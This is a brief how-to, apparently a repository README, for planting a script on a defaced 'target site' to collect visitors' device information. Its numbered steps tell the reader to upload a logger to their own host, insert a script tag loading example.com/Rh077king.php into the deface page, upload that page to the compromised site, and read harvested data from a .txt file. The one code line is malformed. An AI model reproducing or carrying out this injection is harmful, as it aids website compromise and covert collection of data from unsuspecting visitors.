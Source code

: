 #Deface Visitors Device Information



°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°

1:- Upload file your hosting site



2:-Open Your Deface file A editor Apps

            (Example script)

            

3:- <script src="example.com/Rh077king.php"><script>



4:- save your deface file



5:- Upload Deface your Target site



Deface visitors device information see

               Example:

https://www.example.com/Rh077king.txt

